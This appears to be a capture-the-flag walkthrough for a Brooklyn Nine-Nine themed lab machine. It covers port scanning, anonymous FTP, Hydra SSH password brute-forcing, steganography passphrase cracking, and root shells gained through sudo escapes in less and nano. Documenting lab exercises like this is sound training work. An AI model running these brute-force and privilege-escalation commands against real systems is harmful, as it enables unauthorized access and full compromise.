 ## Target IP: `10.10.18.175`

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O 10.10.18.175 -oN results.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 7.6p1 |
| 80 | HTTP | Apache 2.4.29 |

---

### Web Enumeration

- Main page shows a picture from *Brooklyn Nine-Nine*
- Page source contains this comment:

```
<!-- Have you ever heard of steganography? -->
```

---

### Directory Brute Force

```bash
gobuster dir -u http://10.10.18.175 -w /usr/share/dirb/wordlists/common.txt
```

- No results found with small wordlist.
- No `robots.txt`.

---

### Download Image for Stego

```bash
wget http://10.10.18.175/brooklyn99.jpg
```

- Ran `steghide info brooklyn99.jpg`
- Image may contain embedded data, but stego cracking is postponed for now. (Unknown Passphrase)

---

### FTP Enumeration

```bash
ftp 10.10.18.175
```

- Logged in anonymously.
- Found file: `note_to_jake.txt`
- Downloaded with:

```bash
get note_to_jake.txt
```

**Contents:**

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

---

### SSH Brute Force

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.18.175
```

- Credentials found:
    - Username: `jake`
    - Password: `[REDACTED]`
- SSH access confirmed.

---

### User Enumeration

```bash
ls /home
```

- Found directories: `jake`, `holt`, `amy`
- Only `holt` has content:
    - `user.txt`
    - `nano.save`

```bash
cat user.txt
```

- Found hash: `ee11cbb19052e40b07aac0ca060c23ee`
- Used [CrackStation](https://crackstation.net/) → **Password: `[REDACTED]`**
- That hash is the user flag.

---

### Privilege Escalation (Method 1 – Jake)

```bash
sudo -l
```

- Output: Jake can run `less` as sudo.

**GTFOBins Method:**

```bash
sudo less /etc/profile
```

Inside less, enter:

```bash
!/bin/sh
```

- Gained root shell.
- Retrieved root flag from `/root`.

---

### Steganography Follow-Up

- Revisited image hint.
- Used [stegcracker](https://github.com/Paradoxis/StegCracker) with rockyou:

```bash
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```

- Found passphrase: `[REDACTED]`

```bash
steghide extract -sf brooklyn99.jpg
```

- Extracted `note.txt`

**Contents:**

```
Holts Password:
[REDACTED]

Enjoy!!
```

---

### SSH as Holt + PrivEsc (Method 2 – Holt)

```bash
ssh holt@10.10.18.175
```

- Password: `[REDACTED]`

```bash
sudo -l
```

- Holt can run `nano` as sudo.

**Nano GTFOBins Root Method:**

```bash
sudo nano
```

Inside nano, press:

- `Ctrl+R`, then `Ctrl+X`

Then type:

```bash
reset; sh 1>&0 2>&0
```

- Gained root shell again via alternate method.

